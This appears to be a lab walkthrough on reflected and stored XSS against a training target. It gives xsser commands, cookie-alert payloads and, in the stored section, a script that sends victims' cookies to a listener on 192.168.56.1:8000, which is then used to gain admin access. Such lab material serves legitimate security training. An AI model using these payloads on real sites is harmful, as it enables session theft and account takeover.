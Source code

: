 # XSS

Webpage could be susceptible to XSS attacks if user input is reflected back onto the page<br>
Use xsser to check for these vulnerabilities

## Reflected

Input is outputted onto webpage

### POST Request

Submit query and intercept with Burp Suite<br>
![1.1](./imgs/1.1.png)

Pass to xsser to check for XSS vuln<br>
- Change target parameter value to "XSS" so xsser knows which parameter to inject payload
-p=POSTDATA
```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```

Try different payloads
```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto
```

Add your own custom parameter<br>
-Fp=FINAL_PAYLOAD
```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(document.cookie)</script>"
```

Change payload in Burp Suite

![1.2](./imgs/1.2.png)

![1.3](./imgs/1.3.png)

![1.4](./imgs/1.4.png)


### GET Request

Check for XSS vuln
![2.1](./imgs/2.1.png)
```
xsser --url "http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=ark&user-poll-php-submit-button=Submit+Vote"
```
![2.2](./imgs/2.2.png)

Try different payloads<br>
-Fp=FINAL_PAYLOAD
```
xsser --url "http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=ark&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(document.cookie)</script>"
```

![2.3](./imgs/2.3.png)

![2.4](./imgs/2.4.png)

## Persistent

Input is permanently stored in the webpage's database

Write blog post script that will display the user's cookie
```
<h1 id=cookie-tag></h1><script>document.getElementById("cookie-tag").innerHTML = document.cookie</script>
```

![3.1](./imgs/3.1.png)

![3.2](./imgs/3.2.png)

Now lets inject a script that will steal cookies

```
<script>document.location="http://192.168.56.1:8000/?cookie=" + document.cookie</script>
```

Start webserver on port 8000
```
python3 -m http.server
```

![3.3](./imgs/3.3.png)

Use the stolen cookie to get admin access
![3.4](./imgs/3.4.png)

